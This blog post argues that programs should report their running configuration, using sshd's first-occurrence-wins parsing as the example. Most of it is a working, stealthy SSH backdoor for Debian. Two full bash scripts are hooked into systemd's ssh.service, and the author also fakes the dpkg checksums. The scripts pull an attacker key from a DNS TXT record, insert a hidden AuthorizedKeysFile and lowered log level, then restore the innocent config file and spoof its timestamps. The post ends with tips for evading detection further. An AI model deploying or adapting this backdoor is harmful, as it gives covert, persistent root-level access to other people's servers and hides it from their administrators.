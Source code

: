 ```yaml
---
layout: post
title: "Everything that uses configurations should report the values they are using"
author: "Joshua Rogers"
categories: security
---
```


Configuration parsing is an interesting topic I have been working on in the context of my hacking and creating simple backdoors which are hidden from your average sysadmin.

A recent post titled [Everything that uses configuration files should report where they're located](https://utcc.utoronto.ca/~cks/space/blog/sysadmin/ReportConfigFileLocations) piqued my interest, as it related to the unique ways that configuration files are located, prioritized, and eventually parsed. The original post argued that programs should output the location that configuration files are parsed. I concur, and also believe that programs should report their _configurations_ as they are running. This post, among some information about `sshd`, outlines why.

As pointed out in the comments of the HN post, parsing of configuration files generally take a "last occurrence wins" strategy -- if the same configuration option is specified multiple times, the final one takes preference (assuming the option cannot be specified multiple times). However, some programs, like `sshd` take the opposite approach: the _first_ occurrence wins. From `man sshd(8)`:
```
Unless noted otherwise, for each keyword, the first obtained value will be used.
```

_sshd_ also offers functionality to check the configuration _file_:

```
     -T      Extended test mode.  Check the validity of the configuration file, output the effective configuration to stdout and then exit.  Optionally, Match rules may be applied by specifying the connection parameters using one or more -C options.

     -t      Test mode.  Only check the validity of the configuration file and sanity of the keys.  This is useful for updating sshd reliably as configuration options may change.
```
One of the gotchas here is that this test (as it _is_ written) parses the configuration file as it exists; it does _not_ print the current configuration of a running _sshd_ daemon.

In the context of hacking, this is particularly useful, as it is possible to load a malicious `sshd_config` file, reload `sshd`, and then overwrite the malicious configuration file with an innocent-looking version. Your average sysadmin which may look at the `sshd_config` file or run `sshd -T` to check the configuration will be none-the-wiser to the actual configuration options used.

I recently made use of this functionality to create a minimalist ssh backdoor on Debian, achieving persistence quite easily. Using two scripts and updating systemd\'s `ssh.service` file to run the scripts before and after `sshd` starts, persistence using ssh is gained on the server. (Note: I also altered `/var/lib/dpkg/info/openssh-server.md5sums` to state the new ssh.service has the correct checksum.)

The first script has the following functionality:
1. Determine the proper `authorizedkeysfile` value.
2. Create the folder `/etc/calendar/` if it does not already exist, copying the access and modifications times of the `/etc/` folder.
3. Retrieve an SSH public key from the TXT record of `$(hostname).joshua.hu` and save it to `/etc/calendar/root`.
4. Copies the proper sshd configuration file to a temporary file.
5. Overwrites the original sshd configuration file with an `authorizedkeysfile`  option, which contains both the proper value as well as the `/etc/calendar/root` location (ensuring that this malicious `authorizedkeysfile` option is loaded first).
6. Appends the `loglevel` configuration to  the configuration file (ensuring it is loaded first).
7. Appends the original sshd configuration file from the temporary file, to the new sshd configuration file.

```bash
#!/bin/bash
keysfile=`/usr/sbin/sshd -T | awk -F authorizedkeysfile '/authorizedkeysfile/ {print $NF}'` || keysfile=".ssh/authorized_keys"

if [ ! -d "/etc/calendar/" ]; then
    mkdir /etc/calendar/
    touch -r /etc/ /etc/calendar/
fi

dig +short TXT $(hostname).joshua.hu | sed 's/\x22//g' > /etc/calendar/root

cp /etc/ssh/sshd_config /etc/ssh/sshd_config.bak

echo "AuthorizedKeysFile /etc/calendar/root ${keysfile}" > /etc/ssh/sshd_config
echo "LogLevel ERROR" >> /etc/ssh/sshd_config
cat /etc/ssh/sshd_config.bak >> /etc/ssh/sshd_config
exit 0
```

This script is run when sshd is (re)started, _before_ the sshd binary itself is executed, using the `ExecStartPre` systemd directive.

The second script, which is executed _after_ the sshd binary is running (using the `ExecStartPost` systemd directive) simply moves the original sshd configuration file back to its original location.

```bash
#!/bin/bash
mv /etc/ssh/sshd_config.bak /etc/ssh/sshd_config
touch -r /etc/ /etc/ssh/sshd_config
exit 0
```

The key which exists in `/etc/calendar/root` will now be accepted for all users on the server. A sysadmin looking at the `/etc/ssh/sshd_config` file will see nothing spectacular, and `sshd -T` will not report the in-memory configuration. Of course, if the sysadmin looks at the ssh.service file, they will see it has been altered (and which will be overwritten when `openssh-server` updates).

Things get a bit more interesting when it comes to to `sshd`. `sshd_config` in Debian 11+ and Ubuntu 20.04+ "[sets several options as standard in /etc/ssh/sshd_config which are not the default](https://manpages.debian.org/bullseye/openssh-server/sshd_config.5.en.html)". Namely, `Include /etc/ssh/sshd_config.d/*.conf`. This is the first actionable configuration in `/etc/ssh/sshd_config` on Debian 11 and Ubuntu 20.04.

Therefore, instead of editing `/etc/ssh/sshd_config`, it is possible to simply create a file ending in `.conf.` in `/etc/ssh/sshd_config.d/` and restart `sshd`, and then delete the file.

What's even more fun is that when `sshd` is reloaded, current connections do not acquire the new configuration. For multiplexed SSH connections, this means you may even hide your connection using an old configuration.

Is this what the DoD meant by [living off the land](https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF)? By knowing how programs use configuration files and abusing their functionality for exploitation?

A more persistent threat would use something like [shc](https://github.com/neurobin/shc) to convert these scripts into binaries, use some type of encryption/encoding for the retrieval of the public key (versus plaintext over DNS), and use an alternative to altering the `ssh.service` systemd file (for example some type of service that monitors for when `sshd` starts/reloads and performs the necessary changes at the appropriate times, independent of systemd.)
